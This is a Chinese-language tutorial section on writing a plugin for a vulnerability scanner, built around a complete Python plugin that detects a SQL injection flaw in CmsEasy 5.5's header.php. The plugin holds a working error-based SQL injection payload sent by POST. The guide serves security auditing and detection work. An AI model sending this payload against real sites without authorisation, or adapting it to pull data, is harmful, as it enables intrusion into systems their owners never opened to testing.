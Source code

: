 # 编写插件
---

### 1. 编写

开发者在本地编写插件代码，以下为 [CmsEasy 5.5 UTF-8 20140802/celive/live/header.php SQL注入漏洞](http://wooyun.org/bugs/wooyun-2010-070827) 的扫描插件。

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# __author__ = 'Medici.Yan'
# 引入需要用到的标准库
import urllib

# assign 验证任务的指纹
def assign(service, arg):
    if service == fingerprint.cmseasy: # 指纹为 cmseasy
        return True, arg  # 返回类型为 tuple

# audit 审计函数，通过指纹验证后调用该函数
def audit(arg):
    # 此插件中 arg 为提交的网址
    # 构造要提交数据的目标 URL
    target = arg + '/celive/live/header.php'
    # 此漏洞要发送的 POST 数据(Payload)
    post_data = {
        'xajax': 'LiveMessage',
        'xajaxargs[0][name]': "1',(SELECT 1 FROM (select count(*),concat("
                              "floor(rand(0)*2),(select md5(233)))a from "
                              "information_schema.tables group by a)b),"
                              "'','','','1','127.0.0.1','2') #"
    }
    # 通过 hackhttp 发送 Payload 到目标
    code, head, body, redirect_url, log = hackhttp.http(
        target, post=urllib.urlencode(post_data))
    # 验证是否存在漏洞
    if 'e165421110ba03099a1c0393373c5b43' in body:
        # 存在漏洞则输出目标 URL
        security_hole(target, log=log)

# 本地测试时需要加 main 用于调用
if __name__ == '__main__':
    # 导入 sdk
    from dummy import *
    # 调用 audit 与 assign
    audit(assign(fingerprint.cmseasy, 'http://localhost/cmseasy/')[1])

```

**读者暂时无需关注插件编写具体内容，我们会在后面的章节中详细讲解如何编写。**

### 2. 测试

将编写好的插件保存，例如文件名叫 `demo.py`, 直接在终端下运行该文件。如果存在漏洞，则会终端上会有 [LOG] 信息输出。
